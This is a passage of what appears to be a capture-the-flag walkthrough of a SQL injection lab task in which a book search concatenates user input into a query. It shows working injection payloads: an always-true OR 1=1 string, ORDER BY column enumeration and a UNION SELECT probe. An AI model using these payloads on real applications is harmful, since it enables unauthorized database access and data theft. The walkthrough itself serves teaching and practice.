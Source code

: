 After logging in, we will see the flag.

### Task 9 - Vulnerable Startup: Book Title
Goal: A new function has been added to the page, and it is now possible to search books in the database. The new search function is vulnerable to SQL injection because it concatenates the user input directly into the SQL statement. The goal of the task is to abuse this vulnerability to find the hidden flag.

First, create a new user and log in.

After logging in, we will see the following message:

```shell
Testing a new function to search for books, check it out here
```

Click on the "here" link and we will find a Search function.

The Search function, actually performs GET requests with the parameter title searching for a book, we can actually run SQL queries as follow:

```shell
SELECT * from books WHERE id = (SELECT id FROM books WHERE title like '" + title + "%')
```

We got an example to dump all books of the database using the following payload on the Search input:

```shell
') or 1=1-- -
```

But this wont give us the flag.

Lets enumerate the number of columns first. We will use Booktitle (Found this title exists after running `') or 1=1-- -`) but we can also use test if we created a username called test:

```shell
Booktitle') order by 1-- -
Booktitle') order by 2-- -
Booktitle') order by 3-- -
Booktitle') order by 4-- -

Booktitle') order by 5-- - 
```

```shell
# Results we get until we try order by 5
Title: Booktitle
Nice description
Author: Tom Hanks
```

Note that after running order by 5 nothing is being displayed, this means the table has 4 columns.

Now that we know the table has 4 columns, we can try the following payload:

```shell
Booktitle') union select 1,2,3,4-- -
```
